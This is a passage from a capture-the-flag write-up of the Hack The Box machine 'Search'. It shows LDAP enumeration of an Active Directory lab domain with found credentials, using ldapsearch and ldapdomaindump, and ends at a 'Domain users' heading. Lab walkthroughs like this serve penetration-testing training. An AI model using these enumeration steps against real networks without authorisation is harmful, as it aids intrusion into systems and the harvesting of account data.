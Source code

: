 ```shell
```

Which means the **username schema is `<First_Name>.<Last_Name>`**.

Now, since we found valid credentials, we can enumerate the Active Directory environment much deeper.

**Extract domain users:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|15:01:34(HKT)]
└> ldapsearch -x -H ldap://$RHOSTS -D 'hope.sharp@search.htb' -w '{Redacted}' -b "CN=Users,DC=search,DC=htb"
[...]
# Users, search.htb
dn: CN=Users,DC=search,DC=htb
objectClass: top
[...]
```

However, that would take a long time to enumerate.

**To automate this process, we can use a tool called `ldapdomaindump`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|15:03:35(HKT)]
└> ldapdomaindump $RHOSTS -u 'search.htb\hope.sharp' -p '{Redacted}'
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|15:03:45(HKT)]
└> file domain_*             
domain_computers_by_os.html: HTML document, ASCII text, with very long lines (345)
domain_computers.grep:       ASCII text
domain_computers.html:       HTML document, ASCII text, with very long lines (345)
domain_computers.json:       JSON text data
domain_groups.grep:          ASCII text, with very long lines (472)
domain_groups.html:          HTML document, ASCII text, with very long lines (578)
domain_groups.json:          JSON text data
domain_policy.grep:          ASCII text
domain_policy.html:          HTML document, ASCII text, with very long lines (398)
domain_policy.json:          JSON text data
domain_trusts.grep:          ASCII text, with no line terminators
domain_trusts.html:          HTML document, ASCII text
domain_trusts.json:          JSON text data
domain_users_by_group.html:  HTML document, ASCII text, with very long lines (477)
domain_users.grep:           ASCII text, with very long lines (370)
domain_users.html:           HTML document, ASCII text, with very long lines (1194)
domain_users.json:           JSON text data
```

**Domain users:**
